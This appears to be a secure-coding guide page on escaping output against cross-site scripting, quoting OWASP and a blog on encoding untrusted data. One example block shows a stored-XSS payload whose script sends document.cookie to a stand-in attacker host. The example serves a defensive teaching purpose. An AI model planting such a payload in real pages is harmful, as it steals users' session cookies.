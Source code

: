 # Escape Output

### One Paragraph Explainer

HTML and other web languages mix content with executable code - a single HTML paragraph might contain a visual representation of data along with JavaScript execution instructions. When rendering HTML or returning data from API, what we believe is a pure content might actually embody JavaScript code that will get interpreted and executed by the browser. This happens, for example, when we render content that was inserted by an attacker to a database - for example `<div><script>//malicious code</script></div>`. This can be mitigated by instructing the browser to treat any chunk of untrusted data as content only and never interpret it - this technique is called escaping. Many npm libraries and HTML templating engines provide escaping capabilities (example: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Not only HTML content should be escaped but also CSS and JavaScript


### Code example - Don't put untrusted data into your HTML 

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Code example - Malicious content that might be injected into a DB

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Blog Quote: "When we don’t want the characters to be interpreted"

From the Blog [benramsey.com](https://benramsey.com/articles/escape-output/)
> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.
>
> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the `<strong>` tags have special meaning:
>
> ```html
> <strong>This is bold text.</strong>
> ```
>
> But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:
>
> ```html
> &lt;strong&gt;This is bold text.&lt;/strong&gt;
> ```

<br/><br/>

### Blog Quote: "OWASP recommends using a security-focused encoding library"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Blog Quote: "You MUST use the escape syntax for the part of the HTML"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a `<script>` tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
